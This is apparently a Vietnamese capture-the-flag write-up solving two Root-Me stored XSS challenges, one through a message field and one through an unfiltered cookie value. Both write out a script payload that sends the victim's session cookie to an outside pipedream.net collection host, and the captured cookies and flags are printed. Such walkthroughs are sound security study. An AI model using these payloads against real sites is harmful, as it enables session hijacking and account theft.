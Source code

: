 # Trần Mạnh Huy

* [Chall 1:	XSS - Stored 1](#chall-1-xss---stored-1)
* [Chall 2: XSS - Stored 2](#chall-2-xss---stored-2)


## Chall 1: Xss - Stored 1

```
Statement
Steal the administrator session cookie and use it to validate this chall.

```

Đây là 1 chall đơn giản về stored xss. Có 2 phần nhập title và message, gửi abcd ở cả 2 rồi check source bên burpsuite.
Có vẻ tiêm được script nên test luôn: <script>alert(1)</script>, và alert được, vậy thì triển tiếp thôi.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_02.jpg)


Ý tưởng là ta sẽ lưu scipt cướp cookie ở form message và ngồi đợi thằng admin đến đọc cái message đó và bay màu.

Truyền payload vào message để lấy cookie: <script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".cocat(documemt.cookie)</script>

Ở đây dùng đường dẫn trên pipedream kết hợp với concat để nối thực hiện chuỗi, được server trả về kết quả:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_03.jpg)


> Flag: _ga=GA1.1.73691999.1669083110


## Chall 2: XSS - Stored 2

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_01.jpg)

Vẫn như bài trước cho ta 2 phần nhập nhưng thêm 1 số tính năng, và giờ title và message đã bị encode html enities nên kh thực hiện xss được ở đây.

Nếu để ý kĩ, mình sẽ thấy giá trị cookie status=invite đang được hiện thị trên page và không bị fitler html entities. Ta có thể tận dụng ở đây để thực hiện xss

#### Payload: Cookie: status="><script>alert(1)</script>

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

Thực hiện alert thành công, tương tự như bài trước ta gửi payload:

> "><script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie)</script>

Ta nhận được cookie trả về :

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_03.jpg)

Có được cookie rồi ta ném vào ?section=admin để lấy flag

> COOKIE: status=invite;ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

> FLag: E5HKEGyCXQVsYaehaqeJs0AfV
